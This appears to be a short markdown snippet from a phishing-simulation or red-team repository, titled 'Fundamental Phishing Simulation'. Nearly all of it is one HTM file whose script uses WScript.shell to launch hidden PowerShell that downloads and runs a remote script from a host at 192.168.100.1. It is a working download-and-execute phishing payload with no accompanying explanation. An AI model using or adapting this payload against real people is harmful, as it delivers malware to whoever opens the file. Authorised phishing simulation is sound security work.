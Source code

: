 ### Fundamental Phishing Simulation


### Simple HTM File
```
<html>
<script>	
    	var Data = "powershell.exe -nop -w hidden -c \"IEX((new-object net.webclient).downloadstring('http://192.168.100.1/a'));\"";
	var Value = new ActiveXObject("WScript.shell");
	Value.run(Data );
</script>
</html>
```
